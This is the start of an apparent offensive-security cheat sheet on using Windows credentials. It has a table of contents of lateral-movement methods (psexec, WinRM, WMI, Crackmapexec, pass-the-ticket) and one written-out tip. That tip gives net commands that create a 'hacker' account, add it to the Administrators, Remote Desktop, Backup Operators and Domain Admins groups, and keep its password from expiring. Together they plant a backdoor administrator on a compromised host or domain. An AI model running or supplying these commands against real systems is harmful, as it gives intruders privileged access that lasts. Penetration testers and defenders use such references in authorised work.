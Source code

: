# Windows - Using credentials

## Summary

* [TIPS](#tips)
    * [TIP 1 - Create your credential](#tip-1-create-your-credential)
    * [TIP 2 - Retail Credential](#tip-2-retail-credential)
    * [TIP 3 - Sandbox Credential - WDAGUtilityAccount](#tip-3-sandbox-credrential-wdagutilityaccount)
* [Metasploit](#metasploit)
    * [Metasploit - SMB](#metasploit---smb)
    * [Metasploit - Psexec](#metasploit---psexec)
* [Remote Code Execution with PS Credentials](#remote-code-execution-with-ps-credentials)
* [WinRM](#winrm)
* [Powershell Remoting](#powershell-remoting)
* [Crackmapexec](#crackmapexec)
* [Winexe](#winexe)
* [WMI](#wmi)
* [Psexec.py / Smbexec.py / Wmiexec.py](#psexecpy--smbexecpy--wmiexecpy)
* [PsExec - Sysinternal](#psexec-sysinternal)
* [RDP Remote Desktop Protocol](#rdp-remote-desktop-protocol)
* [Netuse](#netuse)
* [Runas](#runas)
* [Pass the Ticket](#pass-the-ticket)
* [SSH](#ssh)

## TIPS

### TIP 1 - Create your credential

```powershell
net user hacker Hcker_12345678* /add /Y
net localgroup administrators hacker /add
net localgroup "Remote Desktop Users" hacker /add # RDP access
net localgroup "Backup Operators" hacker /add # Full access to files
net group "Domain Admins" hacker /add /domain

# enable a domain user account
net user hacker /ACTIVE:YES /domain
# prevent users from changing their password
net user username  /Passwordchg:No
# prevent the password to expire
net user hacker /Expires:Never
```

Some info about your user

```powershell
net user /dom
net user /domain
```
